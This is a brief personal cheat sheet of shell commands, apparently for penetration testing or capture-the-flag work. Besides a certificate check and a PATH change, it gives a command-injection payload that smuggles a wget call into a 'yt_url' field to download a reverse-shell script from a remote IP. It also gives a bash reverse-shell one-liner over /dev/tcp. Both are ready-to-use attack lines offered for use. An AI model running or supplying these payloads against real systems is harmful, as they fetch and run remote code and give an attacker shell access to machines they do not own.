 # LifeLongCommands
All command needed to be noted

# Certificate Check
```bash
openssl s_client -showcerts -connect $ip:$port
```
# Binary Execution Path changing 
```bash
export PATH=/home/somedirectory:$PATH
```
# Command injection
yt_url=;wget${IFS}http://10.4.39.84:8000/rev.sh;

# Reverse Shell cheatsheet
```bash
bash -i >& /dev/tcp/$myip/9999 0>&1
```
